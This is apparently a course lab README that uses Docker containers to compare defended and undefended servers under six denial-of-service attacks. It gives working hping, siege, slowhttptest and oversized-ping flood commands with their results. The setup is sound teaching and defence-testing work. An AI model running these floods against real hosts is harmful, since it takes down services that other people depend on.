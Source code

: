 # HSA L14: DDoS Attacks

## Overview
This is an example project to show how to implement well-known DDos Attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death).
We will setup three docker containers:
1. Attacker Container - contains scripts that will implement 6 attacks (UDP flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death).
1. Defender container with protection.
1. Defender container without protection.

## Getting Started

### Preparation
1. Run the docker containers.
```bash
  docker-compose up -d
```

Be sure to use ```docker-compose down -v``` to clean up after you're done with tests.

2. Run the attacker container.
```bash
docker-compose run attacker bash
```

## Test scenarios

### UDP flood
#### Without DDoS protection:
```bash
$ hping -c 100000 -d 128 -w 64 --flood --rand-source --udp -p 8080 defender-0

--- defender-0 hping statistic ---
2916410 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```
#### With DDoS protection:
```bash
$ hping -c 100000 -d 128 -w 64 --flood --rand-source --udp -p 8081 defender-1

--- defender-1 hping statistic ---
2785135 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

### ICMP flood
#### Without DDoS protection:
```bash
$ hping defender-0 -c 1000 -d 128 -n -p 8080 --icmp --flood --rand-source

--- defender-0 hping statistic ---
1048299 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```
#### With DDoS protection:
```bash
$ hping defender-1 -c 1000 -d 128 -n -p 8081 --icmp --flood --rand-source

--- defender-1 hping statistic ---
893003 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

### HTTP flood
#### Without DDoS protection:
```bash
$ siege -b -c 500 -t 1m defender-0

```
#### With DDoS protection:
```bash
siege -b -c 500 -t 1m defender-1

Transactions:		         643 hits
Availability:		        9.60 %
Elapsed time:		       40.56 secs
Data transferred:	        6.61 MB
Response time:		       16.18 secs
Transaction rate:	       15.85 trans/sec
Throughput:		        0.16 MB/sec
Concurrency:		      256.58
Successful transactions:         643
Failed transactions:	        6052
Longest transaction:	       24.49
Shortest transaction:	        0.00
```

### Slowloris
#### Without DDoS protection:
```bash
$ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://defender-0 -x 24 -p 3
Slow HTTP test status:

initializing:        0
pending:             0
connected:           10
error:               0
closed:              250
service available:   NO

$ curl -XGET localhost:8080
curl: (52) Empty reply from server
```
#### With DDoS protection:
```bash
$ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://defender-1 -x 24 -p 3
Slow HTTP test status:
initializing:        0
pending:             0
connected:           162
error:               0
closed:              838
service available:   YES
```

### SYN flood
#### Without DDoS protection:
```bash
$ hping defender-0 -p 8080 -c 1000 -d 128 -S -n --flood --rand-source

--- defender-0 hping statistic ---
2741951 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```
#### With DDoS protection:
```bash
$ hping defender-1 -p 8081 -c 1000 -d 128 -S -n --flood --rand-source

--- defender-1 hping statistic ---
2002331 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

### Ping of Death
#### Without DDoS protection:
```bash
$ ping 172.16.238.20 -s 65488 -t 1 -n 1

--- 1 ping statistics ---
117 packets transmitted, 0 received, 100% packet loss, time 118789ms
```
#### With DDoS protection:
```bash
$ ping 172.16.238.30 -s 65488 -t 1 -n 1

--- 1 ping statistics ---
200 packets transmitted, 0 received, 100% packet loss, time 162399ms
```